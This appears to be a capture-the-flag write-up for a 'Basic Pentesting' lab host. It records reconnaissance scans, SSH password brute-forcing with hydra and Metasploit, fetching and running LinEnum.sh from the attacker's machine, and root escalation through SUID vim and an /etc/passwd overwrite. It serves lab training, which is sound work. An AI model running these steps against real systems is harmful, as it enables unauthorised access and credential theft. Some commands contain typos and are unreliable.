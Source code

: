 # BASIC PENTESTING

```
export IP=10.10.126.249
```

```
nmap -sC -sV -oN nmap.out $IP 
```

open ports (nmap.out):
```
22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13       syn-ack Apache Jserv (Protocol v1.3)
8080/tcp open  http        syn-ack Apache Tomcat 9.0.7
```

```
gobuster dir -u $IP -w /opt/dirbuster/directory-list-2.3-medium.txt -x php,py,html,css,cgi,txt,js -o gobuster.out
```
directories (gobuster.out):
```
/.html                (Status: 403) [Size: 293]
/index.html           (Status: 200) [Size: 158]
/development          (Status: 301) [Size: 320] [--> http://10.10.100.203/development/]                               
```

```
gobuster dir -u $IP:8080 -w /opt/dirbuster/directory-list-2.3-medium.txt -x php,py,html,css,cgi,txt,js -o gobuster8080.out
```
directories (gobuster8080.out):
```
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/tomcat.css           (Status: 200) [Size: 5581]
```

```
/opt/enum4linux/enum4linux.pl -a $IP | tee enum4linux.out
```
users (enum4linux.out):
```
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

```
nikto -h $IP | tee nikto.out
```
nikto.out:
```
+ Server: Apache/2.4.18 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Server may leak inodes via ETags, header found with file /, inode: 9e, size: 56a870fbc8f28, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
+ /development/: Directory indexing found.
+ /development/: This might be interesting.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ 8074 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2023-09-10 15:05:00 (GMT-3) (2736 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

metasploit:
```
grep login search ssh
use 49
set RHOSTS 10.10.126.249
set user_pass /opt/seclists/Passwords/Common-Credentials/10k-most-common.txt
run
```

hydra:
```
hydra -l jan -P /opt/seclists/Passwords/Leaked-Databases/rockyou.txt ssh://10.10.126.249   
```
```
hydra -l kay -P /opt/seclists/Passwords/Leaked-Databases/rockyou.txt ssh://10.10.126.249   
```

results:
```
[22][ssh] host: 10.10.126.249   login: jan   password: armando  

(kay's password still not found)
```
login into jan's system:
```
ssh jan@!IP
armando
```
open a server, upload LinEnum.sh from your machine and download it in the target machine:

```
python3 -m http.server 3333
``` 
```
cd /tmp/
wget http://my_ip://LinEnum.sh
chmod 777 LinEnum.sh
./LinEnum.sh
```

Basic.Vim is listed as SUID. Open Vim and enter !sh to open a shell with root privileges, then generate a new password and replace root's password in /etc/passwd:

```
openssl passwd -1 -salt root 123
vim /etc/passwd
su root
123
```
now, as root, go to home/kay and read the "pass.bak" file

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```